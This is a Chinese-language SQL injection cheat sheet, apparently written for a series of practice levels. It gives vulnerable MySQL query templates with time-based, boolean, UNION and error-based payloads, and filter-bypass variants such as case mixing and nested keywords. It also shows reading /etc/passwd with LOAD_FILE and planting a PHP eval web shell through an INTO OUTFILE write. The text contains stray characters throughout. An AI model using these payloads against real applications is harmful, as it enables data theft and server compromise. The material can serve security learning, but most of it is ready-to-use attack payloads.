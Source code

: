 #SQL—Injection
应用程序在向后台数据库传递SQLc查询时，如果为攻击者提供了影响该查询的能力，就会引起sql注入。简而言之就是程序代码在编写的时候没有对用户可控的变量进行合适的判断d和处理导致不可信数据被作为命令或是数据查询的一部分发送到用户客户端，导致漏洞的发生。
##Mysql注入
###Mysql数据库版本
 - show version(); < 5.0 没有information_schema数据库;
 - show version(); > 5.0 有内置information_schema数据库，可以快速查找表明;
 - show version(); > 5.5 有内置information_schema数据库和performance_schema数据库(用于收集数据库服务器性能参数)；  

###注释符
 - `#` `/*` `-- -` `;%00`  `` ` 
 - 值得注意：在Accsee数据库中没有注释符的存在，但是在一定条件下可以使用%00来代替注释符。

###注入方式
 - inband,利用攻击者和存在漏洞的wen程序之间现有的f通信方式来进行sql注入并提取数据，Union注入、报错注入(error-base)；
 - inference,通过传入不同的参数值来观察web程序表现的差异性来进行sql注入并提取数据，布尔值注入(bool)、时间注入(time-base)；
 - Out-of-inband，当现有的通信渠道不能提取数据d时，我们可以利用其他渠道来尝试提取数据，如e-mail、HTTP/DNS、文件系统；

###Mysql 读写文件
 - LOAD_FILE() 
    - SELECT LOAD_FILE('/etc/passwd');
    - Mysqlyd用户必须有文件读取的权利；文件大小要小于max_allowed_packet;
 - INTO OUTFILE()
   - SELECT '<?php eval($_REQUEST[\'s\']);>' INTO FILE '/var/www/1.php';
   - INTO OUTFILE不能覆盖已经存在的文件；

###常用函数
 - `@@VERSION()` `VERSION()` `current_user` `database()` `@@HOSTNAME`

##SQL-1
###mysql_query
 - `SELECT * FROM users WHERE id=1 LIMIT 0,1;`
###Payload
 - time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 AND 6036=6036`
 - UNION query
    - `id=-3563 UNION ALL SELECT NULL,NULL,CONCAT()--`

##SQl-2
对比于SQL-1的直接传值$id，SQL-2中在SQL-1注入Payload的基础上需要对y单引号`'`进行闭合；
###mysql_query
 - `SELECT * FROM users WHERE id='$id' LIMIT 0,1;`
###PayLoad
 - time-based blind 
    - `id=1' AND SLEEP(5) AND 'sql'='sql`
    - `id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa) and 'Kevinsa'='Kevinsa`
 - boolean-based blind 
    - `id=1' AND 6036=6036 AND 'Drgh'='Drgh`
 - UNION query
    - `id=-3563' UNION ALL SELECT NULL,NULL,CONCAT()-- Kevinsa'`

##SQL-3
###mysql_query
 - `SELECT * FROM users WHERE id=($id) LIMIT 0,1;`
###Payload
 - time-based blind
    - `?id=1) AND SLEEP(5) AND (1=1# `
 - boolen-based blind
    - `?id=1) AND 1378=1379 AND ('ARzY'='ARzY'`

##SQL-4
可以看到SQL-4与SQL-1是相类似的，在不需要闭合任何符合的情况下就可以进行SQL注入，但是在SQL-4中值得一提的是，SQL-4中开启了`mysql_error();`，r所以我们可以利用报错注入的方式来提取数据。
###mysql_query
 - ```
   $sql_query="SELECT * FROM users WHERE id=$id LIMIT 0,1";
   mysql_query($sql_query);
   echo mysql_error;
   ```

###Payload
 - error-based blind
    - `?id=1 AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(user(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)`
        - floor(rand(0)*2)、count(*)、group by，报错方式的原理是：使用rand()查询时，由于group by的存在floor(rand(0)*2)会被执行一次，当x虚拟表不存在时，插入虚拟表会被再执行一次，而报错正是因为floor(rand(0)*2)的确定性011；文章：Wooyun知识库-Mysql报错注入原理分析(count()、rand()、group by)
    - `id=1  and (extractvalue(1,concat(0x7e,(select user()),0x7e)))`
        - extractvalue是mysql5.1提供的内置XML文件解析和修改函数，函数语法为extratvalue(XML_document,XPath_string),其中的XML_document是string格式，而当我们传入一个数值时，extractvalue()函数会产生报错；
    - `id=1  and (updatexml(1,concat(0x7e,(select user()),0x7e),1))`
        - updatexml同样是mysql5.1中提供的内置xml文件解析和修改函数，函数语法为updatexml(XML_document,XPath_string,new_value),其中的XML_document是string格式，而当我们传入一个数值时，updatexml()函数会产生报错；

##SQL-5
虽然SQL-5的csql查询方式和SQL-1一样，但是php代码中没有对结果的输出点，而且注入布尔值判断也不影响页面正常输出任何内容，所以我们只能利用time-based blind。
###mysql_query
 - `SELECT * FROM users WHERE id='$id' LIMIT 0,1; 
    /* echo mysql_query(); */`
###Payload
 - time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`

##SQL-6
SQL-6对比与SQL-1多了一层粗糙的过滤，`function sqlentities()`以黑名单的方式对id参数值进行过滤。
###mysql_query
 - ```
   function sqlentities($var) {
    $var = str_replace("select"," ",$var);
	$var = str_replace("sleep"," ",$var);
	$var = str_replace("and"," ",$var);
	$var = str_replace("from"," ",$var);
	$var = str_replace("where"," ",$var);
	$var = str_replace("union"," ",$var);
	
	return $var;
	}

   ```

###Payload
最简单的方式，我们一大小写混淆来绕过过滤
- time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 AND 6036=6036`
 - UNION query
    - `id=-3563 UNION ALL SELECT NULL,NULL,CONCAT()--`

##SQl-7
相对于SQL-6，SQL-7匹配为大小写匹配，我们不能用大小写混淆来绕过过滤。
###mysql_quey
 -  ```
    function sqlentities($var) {
    $var = preg_replace('/(select|where|sleep|and|from|union)/i',"",$var);
	return $var;
	}
	}
  ```

###Payload
- time-based blind 
    - `id=1 ANandD SLandEEP(5) `
    - `id=1 AND (SELEandCT * FandROM (SandELECT(SLandEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 ANandD 6036=6036`
 - UNION query
    - `id=-3563 UNandION ALL SELECandT NULL,NULL,CONCAT()--`

